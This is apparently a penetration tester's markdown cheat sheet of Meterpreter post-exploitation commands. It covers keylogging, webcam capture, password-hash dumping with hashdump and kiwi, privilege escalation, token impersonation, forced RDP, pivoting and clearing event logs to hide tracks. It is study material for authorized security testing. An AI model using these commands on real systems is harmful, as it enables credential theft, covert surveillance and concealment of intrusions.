 ```yaml
---
title: Meterpreter
tags: [security, tool, metasploit]
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

1. <u>Basic System Information</u>

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

2. <u>Upload & Download File</u>

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

3. <u>Capture Image</u>

````bash
webcam_list
webcam_snap
screenshot
````

4. <u>Keylogger</u>

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

5. <u>Operations on Target</u>

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

6. <u>Run Exploits</u>

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

7. <u>Session Management</u>

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````